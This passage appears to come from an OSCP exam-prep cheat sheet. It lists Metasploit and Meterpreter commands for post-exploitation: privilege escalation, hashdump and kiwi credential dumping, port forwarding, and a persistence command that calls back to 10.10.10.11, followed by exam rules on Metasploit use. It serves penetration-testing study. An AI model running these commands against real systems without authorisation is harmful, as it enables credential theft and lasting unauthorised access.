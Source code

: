 ```bash
set LPORT 4444

# Run the exploit
exploit
```

### Meterpreter Commands
```
# System commands
sysinfo
getuid
getprivs
ps
migrate PID

# File system commands
pwd
ls
cd
download file
upload file
cat file

# Network commands
ipconfig
route
portfwd add -l 3389 -p 3389 -r target

# Privilege escalation
getsystem
hashdump
load kiwi
creds_all

# Persistence
run persistence -h
run persistence -X -i 5 -p 4444 -r 10.10.10.11
```

### OSCP Restrictions
Remember that in the OSCP exam, Metasploit usage is restricted:
- You can use Metasploit only on ONE machine
- Multi-handler can be used without restrictions
- Meterpreter cannot be used for post-exploitation on other machines
- Manual exploitation is required for most machines

## Privilege Escalation

### Linux Privilege Escalation
